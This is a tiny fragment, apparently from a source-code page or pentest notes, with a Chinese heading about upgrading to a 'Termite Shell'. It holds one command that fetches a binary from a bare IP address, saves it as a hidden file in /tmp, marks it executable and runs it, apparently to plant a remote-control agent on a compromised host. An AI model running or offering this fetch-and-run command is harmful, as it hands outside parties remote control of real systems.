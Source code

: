 # 升级成 Termite Shell

```
curl -fsSL http://1.3.3.7:13339/termite/1.3.3.7:13337 -o /tmp/.H0Z9 && chmod +x /tmp/.H0Z9 && /tmp/.H0Z9
```